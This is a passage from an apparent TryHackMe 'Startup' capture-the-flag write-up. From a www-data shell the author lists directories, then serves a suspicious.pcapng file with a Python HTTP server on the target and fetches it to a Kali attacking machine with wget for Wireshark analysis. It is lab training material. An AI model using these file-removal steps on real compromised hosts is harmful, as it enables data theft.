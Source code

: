 We are unable to access user lennie's directory, but in `/` we find the answer to the first question:

```
www-data@startup:/home$ ls
lennie
www-data@startup:/home$ cd lennie
bash: cd: lennie: Permission denied
```

![thm_startup_1.png](../assets/startup_assets/thm_startup_1.png)

Interestingly, also in `/` is a directory called `incidents` which contains a pcap file:

```
www-data@startup:/$ cd incidents
www-data@startup:/incidents$ ls
suspicious.pcapng
```

Lets use python to start an HTTP server on the target:

```
www-data@startup:/incidents$ python -m SimpleHTTPServer 8000
Serving HTTP on 0.0.0.0 port 8000 ...
10.6.72.91 - - [19/Nov/2024 20:29:39] "GET /suspicious.pcapng HTTP/1.1" 200 -
```

And use `wget` to fetch it and download it locally to our attacking machine:

```
┌──(ryan㉿kali)-[~/THM/Startup]
└─$ wget 10.10.2.91:8000/suspicious.pcapng
--2024-11-19 14:29:39--  http://10.10.2.91:8000/suspicious.pcapng
Connecting to 10.10.2.91:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 31224 (30K) [application/octet-stream]
Saving to: ‘suspicious.pcapng’

suspicious.pcapng               100%[====================================================>]  30.49K  --.-KB/s    in 0.1s    

2024-11-19 14:29:39 (246 KB/s) - ‘suspicious.pcapng’ saved [31224/31224]
```

Lets then use WireShark to interact with the file:

```
┌──(ryan㉿kali)-[~/THM/Startup]
└─$ wireshark suspicious.pcapng 
```
